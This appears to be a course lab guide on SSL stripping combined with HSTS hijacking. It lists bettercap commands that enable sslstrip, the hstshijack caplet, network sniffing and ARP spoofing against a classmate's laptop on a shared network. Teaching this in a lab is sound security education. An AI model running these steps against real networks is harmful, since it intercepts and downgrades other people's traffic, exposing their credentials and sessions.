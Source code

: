 # SSLSTRIP + HSTSHIJACK

**SSL Stripping** or an **SSL Downgrade Attack** is an attack used to circumvent the security enforced by SSL certificates on HTTPS-enabled websites. In other words, SSL stripping is a technique that downgrades your connection from secure HTTPS to insecure HTTP and exposes you to eavesdropping and data manipulation.

**HTTP Strict Transport Security (HSTS)** is a policy mechanism that helps to protect websites against man-in-the-middle attacks such as protocol downgrade attacks and cookie hijacking. It allows web servers to declare that web browsers (or other complying user agents) should automatically interact with it using only HTTPS connections, which provide Transport Layer Security (TLS/SSL), unlike the insecure HTTP used alone.

The HSTS Policy is communicated by the server to the user agent via an HTTP response header field named **Strict-Transport-Security**. HSTS Policy specifies a period of time during which the user agent should only access the server in a secure fashion. Websites using HSTS often do not accept clear text HTTP, either by rejecting connections over HTTP or systematically redirecting users to HTTPS (though this is not required by the specification). The consequence of this is that a user-agent not capable of doing TLS will not be able to connect to the site.

## SSLSTRIP + HSTSHIJACK with BETTERCAP 
### **Goal**
In this session, our goal is to clone start an **sslstrip** attack against a victim also using the **hstshijack** module in order to avoid website **hsts** protection policy.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Login as root and install **bettercap**

        sudo su
        apt install bettercap

 2. Check your `iface` name

        iw dev

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/1.%20iw%20dev.png?raw=true)

 3. Run **bettercap** over your **iface**

        bettercap -iface wlp59s0
 4. Update **bettercap** mudules **(caplets)**
        
        caplets.updates
        caplets.show

 5. Check if **hstshijack/hstshijack** is installed

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/2.%20caplets.png?raw=true)

 6. Run **help** and check enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/3.%20mudules%20enabled.png?raw=true)


 7. Set the **sslstrip** to **true** and enable **hstshijack** module:
       
        set http.proxy.sslstrip true
        hstshijack/hstshijack

 8. Check (again) enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/4.%20mudules%20enabled.png?raw=true)

 9. Finally, enable **net.probe**, **net.sniff** and **arp.spoof** modules (respect this order!)

        net.probe on
        net.sniff on
        arp.spoof on

 10. Check (again and again) enabled modules

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/5.%20mudules%20enabled.png?raw=true)

 11. On the **Victim** side try to navigate and https website
 

**Attention:** modern browser are able to prevent this kind of attack. If you are not to fully replicate the attack on your personal laptop, don't worry, try on the GNS3 laboratory (or study more in order to made it compatible also with modern technologies)